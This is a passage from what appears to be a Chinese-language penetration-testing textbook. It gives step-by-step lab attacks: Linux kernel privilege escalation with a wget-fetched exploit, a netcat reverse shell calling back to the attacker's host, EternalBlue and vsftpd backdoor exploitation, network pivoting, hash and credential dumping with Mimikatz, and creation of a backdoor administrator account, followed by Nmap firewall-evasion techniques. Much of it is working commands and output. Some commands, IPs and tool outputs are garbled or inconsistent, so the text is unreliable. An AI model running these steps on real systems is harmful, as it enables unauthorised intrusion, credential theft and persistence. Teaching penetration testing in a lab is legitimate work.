Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/417a.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/417d.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/417f.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/417c.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/417e.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/416b.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/416a.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/416d.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/416f.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/416c.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/416e.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/415b.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/415a.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/415d.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/415f.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/415c.c
Linux Kernel (2.6.24-16-Ubuntu 8.04.1-generic) - x86_64 (Feb 24/25) - (dynamic Stack Clash) Local Privilege Escalation - Linux/x86_64/415e.c
```

> 图 8.19: 发现针对已发现内核的权限提升漏洞


3. 为了让某些文件、脚本和利用程序可以下载，请执行命令`service apache2 restart Kali`来重启`apache2`。这一步对于访问所需的资源至关重要，如图8.20所示：

```
(ummedeel@kali):~/Desktop
$ service apache2 restart
(ummedeel@kali):~/Desktop
$ service apache2 status - The Apache HTTP Server
Loaded: loaded (/lib/systemd/system/apache2.service; disabled; preset: disabled)
Active: active (running) Fri 2023-06-02 08:20:30 UTC; 6s ago
Docs: https://apache.org/docs/2/
Process: 14268 (/usr/bin/apachectl start (code=exit, status=SUCCESS))
Main PID: 14317 (apache2)
Tasks: 6 (limit: 2245)
Memory: 20.8M
CPU: 4/2ms
```

图8.20：重启`apache2`服务

4. 选定的本地利用程序将在目标机器上执行`/tmp/run`文件，这要求我们用自定义代码或连接脚本来创建它。在这种情况下，我们将利用简单的`netcat`反向`shell`。在`Kali Linux`的新终端中运行命令`nano /var/www/html/run`来创建该文件。然后，输入以下行并替换我们`Kali Linux`机器的`IP`地址，如图8.21所示：

```
#!/bin/bash

nc <kali_linux_IP> 5678 -e /bin/bash
```

```
GNU 7.2                               /var/www/html/run *
#/bin/bash
nc 192.168.29.15 5678 -e /bin/bash
```

图8.21：创建回连脚本

5. 为了方便向目标系统下载`8572.c`载荷，请将其从父目录复制到`html`目录。该目录是下载载荷的方便位置，如图8.22所示：

```
(ummedeel@kali)-[~/Desktop]
$ sudo cp /usr/share/exploit/exploits/linux/8572.c /var/www/html/

(ummedeel@kali)-[~/Desktop]
$ cd /var/www/html/

(ummedeel@kali)-[/var/www/html]
$ ls index.html index.nginx-debian.html run
```

图8.22：将选定的载荷复制到`html`目录

打开一个新的窗口终端，通过执行命令`nc -lvp 5678`在你的`Kali Linux`机器上启动监听器，如图8.23所示：

```
(ummedeel@kali)-[~/Desktop]
$ nc -lvp 5678
listening on [any] 5678 ...
```

图8.23：启动`netcat`监听

# 第3：提升权限

从低权限`shell`执行以下命令`set`，将文件从你的`Kali Linux`机器上传到目标系统，如图8.24所示：

```
cd /tmp
wget http://192.168.29.15/run
wget http://192.168.29.15/8572.c

cd /tmp
wget http://192.168.29.15/run
wget http://192.168.29.15/8572.c

ls
5206.jsvc_up
8572.c
run
```

图8.24：从你的`Kali Linux`向目标系统上传构造的文件

- 从低权限`shell`执行下面给出的命令，以编译利用程序文件并列出文件，如图8.25所示：

```
gcc -o exploit 8572.c
```

```
ls -l
```

```
gcc -o exploit 8572.c
ls -l
total 20
-rw-r--r-- 1 tomcat55 nogroup 0 Jun 2 07:39 5206.jsvc_up
-rw-r--r-- 1 daemon daemon 2757 Jun 2 08:24 8572.c
-rwxrxr-x 1 daemon daemon 8634 Jun 2 08:31 exploit
-rw-xr-x 1 daemon daemon 47 Jun 2 08:23 run
```

图8.25：编译利用程序

根据选定的利用程序文档，我们需要`uddev socket`的进程标识符(`PID`)。要获取此信息，请执行以下命令集以列出网络进程并识别`uddev`进程。最后，我们成功识别了目标`PID`，其为`2796`。见图8.26：

```
cat /proc/net/netlink
```

```
cat /proc/net/netlink
sk  thid PID Groups Owner Uid Dump Locks
df3f3600 0 0000000 0 0000000 2 07:37 0 /bin/sh|uddev --daemon
df921800 4 0000000 0 0000000 2 08:00 0 sh -c -ps aux | uddev grep uddev?
df05f400 7 0000000 0 0000000 2 08:00 0
df33c000 8 0000000 0 0000000 2 08:00 0
df39a010 9 0000000 0 0000000 2 08:00 0
df64e600 13 2796 0 0000000 2 08:00 0
df3f3c00 15 0000000 0 0000000 2 08:00 0
```

图8.26：识别`uddev`进程

## 第一阶段：获取 Windows 7 的（初始）访问

通过利用`Metploitable Framework`，我们可以利用诸如`eternalblue`这样广为人知的漏洞，该漏洞利用了服务器消息（`SMB`）协议中的一个弱点。它专门针对`Windows`操作系统`SMBv1`实现中发现的一个漏洞。

1. 执行提供的命令集以获取初始访问，如图8.41所示：

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.29.44
exploit
```

```
msf > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, default to windows/x64/meterpreter/reverse_tcp
[*] set RHOSTS 192.168.29.44
RHOSTS = 192.168.29.44
msf > exploit/ms17_010_eternalblue
[*] Started TCP scan for ms17_010 on 192.168.29.44 as check
[*] 192.168.29.44 - MOST likely VULNERABLE: Windows 7 Ultimate 701 Service Pack 1 (64-bit)
[*] 192.168.29.44 - Remote OS name: Windows 7 Ultimate 701 Service Pack 1
[*] 192.168.29.44 - Connecting to target.
[*] 192.168.29.44 - Exploiting target vulnerability.
[*] 192.168.29.44 - Target selected by ID given by SMB request
[*] 192.168.29.44 - 0x00000000 5e 06 54 66 77 32 37 38 35 74 69 61 Windows 7
[*] 192.168.29.44 - 701 Ultimate Service Pack 1
[*] 192.168.29.44 - Target architecture selected for exploit by DCE/RPC request
[*] 192.168.29.44 - Sending all possible exploit packets
[*] 192.168.29.44 - Sending last fragment of exploit packet
[*] 192.168.29.44 - Receiving last fragment of exploit packet
[*] 192.168.29.44 - Meterpreter session opened successfully (0x00000000)
[*] 192.168.29.44 - Sending exploit payload stage
[*] Starting stage (22087 bytes) at 192.168.29.44
[*] Meterpreter session 1 (192.168.29.44:49198) at 2023-08-22 13:56:14 -0400
1 192.168.29.44 > meterpreter>
1 192.168.29.44 > 
```


## 第二阶段：网络信息收集与枢点连接建立

1. 接下来，有必要执行命令`run autoroute -s 192.168.29.0/24`和`route print`来向`meterpreter`会话添加路由，所示所示

```
meterpreter > autoroute -s 192.168.29.0/24
[*] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[=] Example: run post/multi/manage/autoroute OPTION=value ...
[+] Adding a route to 192.168.29.0/255.255.0 ...
[+] Added route to 192.168.29.0/255.255.0 via 192.168.29.4
[?] Use the -p option to list all active routes
meterpreter > autoroute -p
[*] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[=] Example: run post/multi/manage/autoroute OPTION=value ...
```

活动路由表

| 子网 | 掩码 | 网关 |
| --- | --- | --- |
| 192.168.29.0 | 255.255.255.0 | Session 1 |

> 图 8.42：通过执行`background`命令向`meterpreter`会话添加路由

2. 有必要将`meterpreter`会话放入后台，以便利用辅助模块进行侦察，如图8.43所示：

```
meterpreter > background
[+] Backgrounding session 1 ...
msf6 exploit(windows/smb/ms17_010_eternalblue) > |
```

> 图 8.43：将`meterpreter`会话放入后台

3. 为了继续进行，下一步是扫描网络上的其他系统。利用`meterpreter`内置的`ARP`扫描器，我们可以全面扫描整个网络以寻找额外的系统。执行提供的命令`set`（如图8.44所示），以启动`ARP`扫描过程并收集有关网络结构的价值信息：

```
use post/windows/gather/arp_scanner
set RHOSTS 192.168.29.0/24
set SESSION 1
run
```

```
msf6 exploit(windows/smb/ms17_eternal) > use post/windows/gather/arp_scanner
msf6 post(windows/gather/arp_scanner) > show options
```

模块选项（`post/windows/gather/arp_scanner`）：

| 名称 | 当前值 | 描述 |
| --- | --- | --- |
| `RHOSTS` | `yes` | 目标地址范围或`CIDR`标识符 |
| `SESSION` | | 运行此模块的会话 |
| `THREADS` | `10` | 并线程数 |

使用`info`或`-h`命令查看完整模块。

```
msf6 post(windows/gather/arp_scanner) > set RHOSTS 192.168.29/24
RHOSTS = 192.168.29.24
msf6 post(windows/gather/arp_scanner) > set SESSION 1
SESSION = 1
msf6 post(windows/gather/arp_scanner) > run
```

- 带有负载运行模块：`WMI-FP768IBUS`
- 扫描`192.168.29.0/24` (256个主机)
    - `192.168.29.1`, `MAC 00:0c:29:c4:00:01 (UNKNOWN)`
    - `192.168.29.2`, `MAC 00:0c:29:c4:00:02 (VMware, Inc.)`
    - `192.168.29.3`, `MAC 00:0c:29:c4:00:03 (VMware, Inc.)`
    - `192.168.29.4`, `MAC 00:0c:29:c4:00:04 (UNKNOWN)`
    - `192.168.29.5`, `MAC 00:0c:29:c4:00:05 (VMware, Inc.)`
    - `192.168.29.6`, `MAC 00:0c:29:c4:00:06 (UNKNOWN)`
    - `192.168.29.7`, `MAC 00:0c:29:c4:00:07 (UNKNOWN)`
    - `192.168.29.8`, `MAC 00:0c:29:c4:00:08 (VMware, Inc.)`
    - `192.168.29.9`, `MAC 00:0c:29:c4:00:09 (VMware, Inc.)`
    - `192.168.29.10`, `MAC 00:0c:29:c4:00:0a (UNKNOWN)`
    - `192.168.29.11`, `MAC 00:0c:29:c4:00:0b (UNKNOWN)`
    - `192.168.29.12`, `MAC 00:0c:29:c4:00:0c (VMware, Inc.)`
    - `192.168.29.13`, `MAC 00:0c:29:c4:00:0d (UNKNOWN)`
    - `192.168.29.14`, `MAC 00:0c:29:c4:00:0e (VMware, Inc.)`
    - `192.168.29.15`, `MAC 00:0c:29:c4:00:0f (VMware, Inc.)`

> 图 8.44：扫描网络

4. 如上所述，我们的`ARP`扫描已成功识别了机器/资产。现在让我们通过选择一个特定的主机并使用`auxiliary/scanner/portscan`进行端口扫描以确定开放的端口。执行以下命令序列，如图8.45所示：

```
use auxiliary/scanner/portscan
set RHOSTS 192.168.29.0/24
set SESSION 1
run
msf6 post(windows/gather/arp_scanner) > auxiliary/portscan
msf6 auxiliary(portscan) > set RHOSTS 192.168.29.146
msf6 auxiliary(portscan) > set PORTS 1-100
msf6 auxiliary(portscan) > set THREADS 50
msf6 auxiliary(portscan) > run
```

[1] `192.168.29.146:21` - `192.168.29.146` - `OPEN`

[2] `192.168.29.146:22` - `192.168.29.146` - `OPEN`

[3] `192.168.29.146:23` - `192.168.29.146` - `OPEN`

[4] `192.168.29.146:25` - `192.168.29.146` - `OPEN`

[5] `192.168.29.146:53` - `192.168.29.146` - `OPEN`

[6] `192.168.29.146:80` - `192.168.29.146` - `OPEN`

> 图 8.45：使用辅助模块进行端口扫描

## 第三阶段：通过利用 Metploit 2 进行网络枢接

让我们通过将`meterpreter`会话放入后台并配置利用，通过目标`Metploit 2`访问内部系统，已知该系统运行`Windows 7`。通过后侦察分析，我们确定目标资产为`192.168.29.146`；我们的重点是运行在端口`21`的服务，该服务已知受`Secure FTP Daemon (VSFTPD)`漏洞的影响。`exploit/unix/ftp/vsftpd_234`设计用于利用`SFTPD`中的特定漏洞。

1. 为了利用该漏洞，请执行以下命令序列，如图8.46所示：


# 利用后门

以下命令用于利用 VSFTPD 后门：

```bash
use exploit/unix/ftp/vsftpd_234_backdoor

set RHOSTS <Metasploit 2 IP>

exploit
```

执行过程如下：

```text
msf auxiliary(portscan/tcp) > use exploit/unix/ftp/vsftpd_234_backdoor

[*] No payload configured, defaulting to cmd/unix/shell

msf exploit(vsftpd_234_backdoor) > set RHOSTS 192.168.29.146

RHOSTS => 192.168.29.146

msf exploit(vsftpd_234_backdoor) > exploit

[+] 192.168.29.146 - Banner: 220 (vsFTPD 2.3.4)

[*] 192.168.29.146 - USER: 331 Please specify the password.

[*] 192.168.29.146 - Backdoor service has been spawned, handling...

[*] 192.168.29.146 - Session 2 opened
```

> 图 8.46：利用后门

2. 现在我们可以访问了。从这里，我们可以执行各种操作，如图 8.47 所示。

在 Windows 7 系统上执行提供的命令集以获取初始访问，如图 8.48 所示。

```bash
use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS 192.168.29.4
```

```bash
msf> use exploit/windows/smb/ms17_010_eternalblue
msf> exploit/windows/smb/ms17_010_eternalblue
msf> set RHOSTS 192.168.29.4
MSF Exploit>
msf> exploit/windows/smb/ms17_010_eternalblue > exploit
```

- `192.168.29.44:445` - Using `exploit/windows/smb/ms17_010_eternalblue`
- `192.168.29.44:445` - Connection to Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
- `192.168.29.44:445` - Target host is `192.168.29.44`
- `192.168.29.44:445` - Scanned 1 hosts (100% complete)
- `192.168.29.44:445` - Establishing target connection
- `192.168.29.44:445` - Connection established for exploit
- `192.168.29.44:445` - Sending payload, waiting for SMB reply
- `192.168.29.44:445` - `0xc000000` `0xc000000`
- `192.168.29.44:445` - COR buffer dump 138 bytes
- `192.168.29.44:445` - Received 138 bytes from `192.168.29.44`
- `192.168.29.44:445` - `01 21 53 76 22 27 38 35 7c 6a 6d 74 6a 63 05 28` to Windows 7
- `192.168.29.44:445` - Target host is `192.168.29.44`
- `192.168.29.44:445` - `0xc000028` `58 61 50 30 28` to `7601 Service`
- `192.168.29.44:445` - Pack 1
- `192.168.29.44:445` - Trying exploit with 12 Groom
- `192.168.29.44:445` - Sending exploit packet
- `192.168.29.44:445` - Sending fragment of exploit packet
- `192.168.29.44:445` - Sending SMB buffers
- `192.168.29.44:445` - Sending SMB command
- `192.168.29.44:445` - Overwriting memory free pool buffer
- `192.168.29.44:445` - `ETERNALBLUE` overwritten successfully (`0xc000000`)
- `192.168.29.44:445` - Meterpreter session created
- `192.168.29.44:445` - Triggering free of corrupted buffer
- `192.168.29.44:445` - Sending shellcode
- `192.168.29.44:445` - Connection established to `192.168.29.44:445` (`2023-03-06 00:12:20 -0400`)

```text
[+] 192.168.29.44:445 > meterpreter
meterpreter > getuid
uid is SYSTEM
meterpreter > getsystem
Computer: W-PFN738150
OS: Windows 7 (R1 Build 7601, Service Pack 1).
```

图 8.48: 利用 Windows 7 系统获取初始访问

# 通过 dump 技术实现持久化

1. 要提取哈希（密码），请遵循图 8.49 所示提供的命令集：

```bash
use post/windows/gather/smart_hashdump
```

```bash
set SESSION 1
```

```bash
run
```

`meterpreter > background`

```bash
[+] Backgrounding session 1...
msf6 > exploit(windows/smb/ms17_010_eternalblue) > use post/windows/gather/smart_hashdump
msf6 > post(windows/gather/smart_hashdump) > show options
```

模块选项 (`post/windows/gather/smart_hashdump`):

| Name | Current | Required | Description |
| :--- | :--- | :--- | :--- |
| `GETSYSTEM` | false | | 尝试在目标主机上获取 SYSTEM 权限。 |
| `SESSION` | | yes | 运行此模块的会话。使用 info 或 -d 查看完整模块。 |

```bash
msf6 post(windows/gather/smart_hashdump) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/smart_hashdump) > run
```

图 8.49: 哈希密码

2. 如图 8.50 所示，我们已成功获取所有用户及其关联 NTLM 哈希的 dump：

```bash
[+] 192.168.29.44:445 > meterpreter
[+] Dumping all users and NTLM hashes...
[+] Dump complete.
```

图 8.50: 用户名和 NTLM 哈希

在许多组织中，管理员密码在多个系统之间共享是常见的。通过这些信息导致了：

- 许多许多情况下，可以据此利用明文用户名和密码。
- 结合这些信息，可以在目标系统上建立持久存在。

# 使用 RDP 进行横向移动

为了在目标系统上建立持久化，我们将目标系统上启用**远程桌面 (RDP)**，并在需要时创建一个新用户。

让我们分步骤检查这种方法：

1. 首先，执行命令将当前的 meterpreter 会话置于后台。然后，按照以下顺序在目标系统上启用 RDP，如图 8.51 所示：

```bash
use post/windows/manage/enable_rdp
set SESSION 1
run

msf(handler) > use post/windows/manage/enable_rdp
msf post(windows/manage/enable_rdp) > set SESSION 1
msf post(windows/manage/enable_rdp) > run

[*] RDP is enabled it startup mode
[*] Setting Terminal Services is already set to auto
[*] Opening port in local firewall if necessary
[*] For Setup Manager resource file: /home/umiel/.msf/local/20220630030228_default_192.168.29.44_host.windows.cle_973358.txt
[*] Post execution completed
msf post(windows/manage/enable_rdp) >
```

图 8.51: 启用 RDP

2. 要重新访问 meterpreter 会话，使用命令 `sessions -1`。然后，执行命令 `shell` 获取受控系统的 shell，如图 8.52 所示：

3. 从那里，通过执行以下命令集创建一个具有管理员权限的新用户，如图 8.53 所示：

```cmd
net user ummedveel pass@123 /add
net localgroup Administrators ummedveel /add
```

```cmd
C:\Windows\system32>net localgroup Administrators ummedveel /add
net localgroup Administrators ummedveel /add
命令已成功完成。
```

图 8.53: 添加具有管理员权限的新用户

4. 打开 RDP 客户端，输入用于连接受控系统的 IP 地址。点击连接建立连接。提供用户名和密码，然后点击确定，如图 8.54 所示：

图 8.54: 连接远程桌面

5. 这样我们就成功了！我们成功获得了目标系统的远程桌面访问权限，如图 8.55 所示。

1. 在继续之前，验证当前的 meterpreter 会话是否具有系统级权限至关重要。要确认这一点，请如图 8.56 所示执行 `getuidid` 命令：

```text
meterpreter > getudid
Server username : NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer      : WIN-FPPS78IB5
OS            : Windows 7 (6.1 Build 7601, Service Pack 1)
Architecture  : x64
System Language : en_US
Domain        : WORKGROUP
Logged On Users : 1
meterpreter      : x64/windows
```

图 8.56：执行 getudid 命令

2. 要将 Mimikatz 模块加载到内存中，请执行 `load kiwi` 命令。Metasploit 为 Mimikatz 提供了一组内置命令；然而，利用 `kiwi_cmd` 选项可以对 Mimikatz 的完整功能无无限制访问。见图 8.57：

```text
meterpreter > load kiwi
Loading extension kiwi...
## mimikatz 2.2.0 20191125 (x64/windows)
#### # ## 'La Vie A L'Amour' - (oe.eo)
## // // ## Benjamin
benjamin@gmail.com
Success.
```

图 8.57：将 Mimikatz 模块加载到内存中

3. 要查看模块的完整列表，请运行图 8.58 所示的 `help kiwi` 命令：

```text
meterpreter > help kiwi
```

## Kiwi 命令

| 命令 | 说明 |
| --- | --- |
| `all` | 获取所有凭据（已解析） |
| `kerberos` | 获取 Kerberos（已解析） |
| `ntlm` | 获取 LM/NTLM（已解析） |
| `csp` | 获取 CSP（已解析） |
| `tkg` | 获取 TGT（已解析） |
| `widget` | 获取 WDigest（已提取） |
| `dsyncinfo` | 通过 DCSync 获取用户账户 |
| `dsync` | 通过 DCSync 获取哈希、SID |
| `golden_ticket` | 创建黄金票据 (golden ticket) |
| `kerberos_list` | 列出所有 kerberos 票据（已解析） |
| `kerberos_ticket` | 导出并注入票据 |
| `kerberos_ticket_use` | 使用票据 |
| `kiwi_execute` | 执行命令（已解析） |
| `ls_dump` | 导出机密（已解析） |
| `password_change` | 更改用户的密码/哈希 |
| `wifi_list` | 列出当前用户的 配置文件/凭据 |
| `wifi_list_shared` | 列出共享配置文件/凭据（需要 SYSTEM 权限） |

图 8.58：可用模块列表

4. 要从 SAM 文件中提取哈希，请如图 8.59 所示执行 `lsa_dump` 命令：

```text
meterpreter > lsa_dump
[*] Running as SYSTEM
[*] Dumping SAM
Domain: WORKGROUP
Key: 2e7fcdc3bae96b423ca70
Local SID: S-1-5-2-4688355-1998297124-800
SAM: f0ded0c34ef7956aecf94
```

图 8.59：从 SAM 文件中提取哈希

| RID | 用户 | NTLM 哈希 | SHA1 |
| --- | --- | --- | --- |
| `00000002` | Administrator | `3d68cfe01ae93b73c59d7e0c89` | `da39a35e6b4b0d3255bf9f561980fad80` |
| `0000001f` | Guest | | |
| `0000006e` | unnamed | `2c27f20b71679365b6ad3706f42f31` | |
| `0000007d` | default | `07f6e186251326920ea94` | |

5. 此外，还可以利用 `creds_all` 命令提取并导出哈希，如图 8.60 所示。该命令提供了一种方便且全面的方法，用于从受害系统中检索各种凭据和哈希。请参考下图：

```text
meterpreter > creds_all
[*] Running as SYSTEM
+] Retrieving all credentials
```

## msv 凭据

| 用户名 | 域 | | | |
| --- | --- | --- | --- |
| Administrator | WIN-FPPS78BISUF | | | |

## wild-get 凭据

| 用户名 | 域 | 密码 |
| --- | --- | --- |
| (null) | (null) | (null) |
| Administrator | WIN-FPPS78BISUF | (null) |
| WIN-FPPS78BISUF | WORKGROUP | (null) |

## kerberos 凭据

| 用户名 | 域 | 密码 |
| --- | --- | --- |
| (null) | (null) | (null) |
| Administrator | WIN-FPPS78BISUF | (null) |
| win-fps78bisuf | WORKGROUP | (null) |

图 8.60：凭据及相关哈希

> 注意：Mimikatz 还采用了黄金票据 (golden ticket) 和银色票据 (silver ticket) 等高级技术，可在网络中提供持久访问和横向移动。此外，它还便于凭据操纵、键盘记录、证书管理。

## 总结

总之，本章涵盖了权限提升、哈希破解和网络渗透的全面之旅。你获取了安全和破解密码的见解，探索了精英和在线工具，并理解了哈希、加密和编码之间的区别。书中还强调了后渗透阶段和移动的重要性。所掌握的知识将提升你作为渗透测试员的能力，使你能够发现漏洞、强化安全措施并在复杂的场景中有效保护系统和网络。

在接下来的章节中，我们将探讨绕过计算机安全控制的艺术。这包括绕过 Windows 安全、杀毒软件安全和防火墙安全。我们还将深入研究社交工程以及用于渗透测试和网络安全评估的各种技术。本章将提供宝贵的见解和技能，用于评估和增强安全控制的有效性。

## 加入我们的书籍 Discord 空间

加入书籍 Discord 工作区，获取最新更新、优惠、全球科技动态以及与作者互动：

`https://discord.bpbononline.com`

# 第 9 章

# 绕过安全控制

## 引言


在本章中，我们将探讨绕过计算机安全控制的艺术。这包括绕过 Windows 安全、杀毒软件安全和防火墙安全。我们还将深入研究社交工程以及用于渗透测试和网络安全评估的各种技术。本章将提供宝贵的见解和技能，用于评估和增强安全控制的有效性。

## 结构

在本章中，我们将讨论以下主题：

- 安全控制的重要性
- 安全控制的进展
- 网络绕过
- 绕过 Windows Defender
- AV 规避技术和工具
    - 利用 Metasploit 模板和自定义二进制文件规避杀毒软件
    - Shellter
    - Phantom-Evasion
- Invoke-stealth
- 演进 WAF 策略
- 演进社交工程
- 钓鱼模拟
- Gophish

> 注意：绕过安全控制可以揭示被忽视的漏洞并暴露安全技术的局限性，使组织能够加强对新兴威胁的防御。

## 安全控制的进展

随着技术的进步，攻击者不断调整其方法，这使得渗透测试人员理解并评估安全控制的最新进展至关重要。现在让我们深入研究图 9.1 所示的安全控制的显著增强：


图 9.1：安全控制的进展

## 前沿技术

在现代网络安全领域，三项关键进展正在重塑组织保护数字资产的方式：

- 下一代防火墙：通过深度包检测等高级功能，增强对复杂攻击的检测和预防。
- 基于行为的异常检测：快速检测网络和用户行为的偏差，提醒安全团队注意潜在威胁。
- AI 驱动的威胁情报：通过分析数据集和关联指标主动猎捕威胁，辅助威胁的识别和缓解。

## 智能系统

驱动数字防御演化的两个智能系统：

- 机器学习与人工智能：引入机器学习和人工智能改进了安全控制，实现了实时异常检测、自动化响应和自适应威胁建模。
- 自动化与编排：具有自动化的安全控制简化了事件处理，能够更快速地遏制和缓解威胁。

## 演变的威胁态势

以下两点突出了在日益复杂的威胁中，网络安全实践的演变：

- 零信任架构：这种安全模型拒绝对用户和设备的自动信任，要求在访问资源时进行持续的身份验证和校验。
- 结合机器学习的高级恶意软件检测：安全控制利用机器学习算法识别并对抗复杂的恶意软件，包括多态威胁和零日威胁。

## 云特定安全控制

以下点讨论了用于保护云环境的云特定安全控制和框架：

- 云安全态势管理 (CSPM)：这些控制通过监控配置、识别漏洞以及确保符合最佳实践来帮助保护云环境。
- 云安全矩阵 (CSM)：`CSM` 是一个稳健的框架，指导组织保护其云环境。它整合了行业公认的标准，如云安全联盟 (CSA)、云控制矩阵 (CCM)、互联网安全中心 (CIS) 控制措施以及美国国立标准与技术研究院 (NIST) 网络安全框架。

> 注意：在追求遵循零信任架构原则的过程中，组织必须优先采用前沿技术、智能系统和云特定控制。

## 网络侦察中的安全控制绕过

在利用 `Nmap` 进行侦察时，有几种技术可以用于绕过安全控制。让我们探索这些类别及其子项，以及相关的命令和步骤：

首先，让我们检查目标 Windows 10 机器是否启用或禁用了 Windows 防火墙。如图 9.2 所示，观察到 Windows 防火墙目前开启状态：


图 9.2：Windows 防火墙已启用

### 源端口操纵

源端口操纵涉及将源端口更改为常用端口，增加 IDS 或防火墙识别并阻止扫描活动的难度。要执行此技术，请使用图 9.3 所示的命令 `nmap -g <common-source-port> targetIP`：

```bash
[umnedel@hall:~/desktop]$
sudo nmap -g 80 192.168.29.24
[sudo password for umnedel]
Nmap Starting 7.92 (https://nmap.org) on 2023-07-07 07:11 EDT
Nmap scan report for 192.168.29.24
Host is up (0.0008ms latency).
Not all 100 ports are filtered (tcp)
PORT SERVICE
80/tcp open http
135/tcp open ms-rpc
139/tcp open ms-nmb
445/tcp open registry-clt
2105/tcp open eklog
3139/tcp open ms-mgmt
3389/tcp open ms-server
5985/tcp open wget
8443/tcp open https-alt
MAC Address: 00:0C:29:9F:7A:5D (VMware)
Nmap done: 1 IP address scanned in 5 seconds
```

图 9.3：源端口操纵

## IP 地址欺骗

IP 地址欺骗允许创建或手动选择诱骗地址，为 IDS 和防火墙准确识别真实源带来障碍。要使用此技术，请利用图 9.4 所示的命令 `nmap -S <decoy-IP> -D targetIP`：

```bash
ummedeel@kali:~/Desktop
sudo nmap -S 192.168.2.40 -D <random host>
Starting Nmap 7.93 (https://nmap.org) at 2022-07-02 07:13 EDT
Nmap scan for 192.168.2.40
Host is up (0ms-latency).
Not shown: 991 ports filtered (no-response)
PORT SERVICE
80/tcp open http
135/tcp open ms-rpc
1381/tcp open ms-rpc
2103/tcp open zephyr-clt
2105/tcp open ms-login
2187/tcp open ms-mgmt
3389/tcp open ms-ds-server
5357/tcp open wsdapi
8443/tcp open https-alt
MAC Address: 00:0C:29:9F:7A:5D (VMware)
Nmap done: 1 IP address scanned in 5.04 seconds
```

图 9.4：IP 地址欺骗

### 数据分片

分片技术涉及向目标发送分包并在接收后进行重组。这种方法可以有效绕过入侵检测系统 (IDS) 和防火墙。要利用此技术，执行图 9.5 所示的命令 `nmap -f targetIP`：

```bash
ummedeel@kali:~/Desktop
sudo nmap -f 192.168.2.40
Starting Nmap 7.93 (https://nmap.org) at 2022-07-02 07:15 EDT
Nmap scan for 192.168.2.40
Host is up (0ms-latency).
Not shown: 991 ports filtered (no-response)
PORT SERVICE
80/tcp open http
135/tcp open ms-rpc
1381/tcp open ms-rpc
2103/tcp open zephyr-clt
2105/tcp open ms-login
2187/tcp open ms-mgmt
3389/tcp open ms-ds-server
5357/tcp open wsdapi
8443/tcp open https-alt
MAC Address: 00:0C:29:9F:7A:5D (VMware)
Nmap done: 1 IP address (host) scanned in 4.92 seconds
```

图 9.5：数据分片

## MAC 地址欺骗

MAC 欺骗涉及更改原始 MAC 地址以隐藏网络流量的真实身份。要执行此方法，使用图 9.6 所示的命令 `nmap --spoof-mac <spoofed-mac> targetIP`：

```bash
$unnamed@kali:~$ nmap
sudo nmap -sn --spoof-mac 192.168.0.248
Starting Nmap 7.9 (https://nmap.org) at 2023-07-02 07:27 EDT
Spoofing MAC address AC:BD:A5:E2:B3:8 (No registered vendor)
You have found some options that require root access.
These options will not be honored for TCP scan.
Nmap scan for 192.168.0.248
Host is up (0.00992ms, latency).
Not shown: 911 filtered ports (no-response)
STATE SERVICE PORT
80/tcp open http
135/tcp open ms-rpc
1481/tcp open msnq
2183/tcp open zephry-clt
2105/tcp open eklogin
2107/tcp open msnq-mgmt
3389/tcp open ms-web-server
5357/tcp open wsadpi
8443/tcp open https-alt
Nmap done: 1 IP address (host up) scanned in 19.36 seconds
```

图 9.6：MAC 地址欺骗

## 自定义包创建

创建自定义包允许发送特制包以扫描目标防火墙和安全措施。

1. `--data-length` 命令便于指定附加数据所需的长度。要使用此功能，执行图 9.7 示例所示的命令 `nmap --data-length <length> targetIP`：

```bash
$unnamed@kali:~/Desktop
sudo nmap --data-length 10 192.168.0.248
Starting Nmap 7.9 (https://nmap.org) at 2023-07-02 07:30 EDT
Nmap scan for 192.168.0.248
Host is up (0.00992ms, latency).
